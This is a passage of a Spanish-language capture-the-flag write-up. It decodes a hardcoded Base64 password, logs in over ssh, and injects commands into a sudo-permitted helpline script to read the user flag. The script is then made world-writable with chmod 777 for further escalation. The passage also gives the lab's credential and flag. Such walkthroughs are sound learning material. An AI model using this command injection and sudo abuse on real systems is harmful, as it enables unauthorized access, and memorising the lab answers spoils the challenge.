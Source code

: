 ```
                {
                        echo "Invalid Username or Password";
                }
        }
?>
</html>
```

Vemos una contraseña codificada en Base64...

```
IWQwbnRLbjB3bVlwQHNzdzByZA== = !d0ntKn0wmYp@ssw0rd
```

A parte vemos que le da la bienvenida a un usuario llamado `anurodh` por lo que la contraseña es de ese usuario, nos conectaremos por `ssh` mejor para tener una shell mejor...

```shell
ssh anurodh@<IP>
```

Una vez dentro con este usuario si hacemos `sudo -l` veremos lo siguiente...

```
Matching Defaults entries for anurodh on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User anurodh may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```

Por lo que si hacemos lo siguiente...

```shell
sudo -u apaar /home/apaar/.helpline.sh

#Dentro de la ejecuccion
Welcome to helpdesk. Feel free to talk to anyone at any time!

Enter the person whom you want to talk with: apaar
Hello user! I am apaar,  Please enter your message: cat local.txt
{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}
Thank you for your precious time!
```

Podemos inyectar comandos y leer la flag del usuario...

```
{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}
```

Si hacemos `chmod 777 .helpline.sh` autenticado como el otro usuario ya que podemos pondremos que con el usuario con el que estamos en este momento podamos escribir lo que queramos dentro del `.sh` y luego lo ejecutemos como `apaar`...

```shell
sudo -u apaar /home/apaar/.helpline.sh

#Comando ejecutado
chmod 777 .helpline.sh
```
